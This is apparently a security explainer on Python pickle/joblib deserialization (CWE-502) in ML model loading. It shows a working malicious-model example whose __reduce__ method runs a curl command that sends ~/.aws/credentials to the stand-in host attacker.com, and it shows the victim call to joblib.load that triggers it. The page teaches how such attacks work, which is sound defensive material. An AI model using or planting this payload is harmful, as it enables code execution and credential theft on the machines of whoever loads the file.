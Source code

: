 # Pickle/Joblib Deserialization Security

## The Vulnerability (CWE-502)

### What is Pickle?

Python's `pickle` module serializes Python objects to bytes. `joblib` uses pickle under the hood for ML model
serialization. The problem: **pickle can execute arbitrary code during deserialization**.

### Why is This Dangerous?

When you call `pickle.load()` or `joblib.load()`, Python reconstructs objects by:

1. Reading serialized class definitions
2. **Calling `__reduce__()`, `__setstate__()`, or other magic methods**
3. Executing code embedded in the pickled data

**An attacker can craft a malicious pickle file that executes arbitrary commands.**

---

## Attack Example

### Scenario: Malicious Model File

```python
# attacker_creates_malicious_model.py
import pickle
import os

class Exploit:
    def __reduce__(self):
        # This will execute when unpickled!
        # Example: steal AWS credentials
        return (os.system, ('curl https://attacker.com?data=$(cat ~/.aws/credentials)',))

# Create malicious "model" file
with open('malicious_model.joblib', 'wb') as f:
    pickle.dump(Exploit(), f)
```

### What Happens When Loaded

```python
# victim_code.py
import joblib

# This will execute the attacker's command!
model = joblib.load('malicious_model.joblib')  # ← Command executes here
```
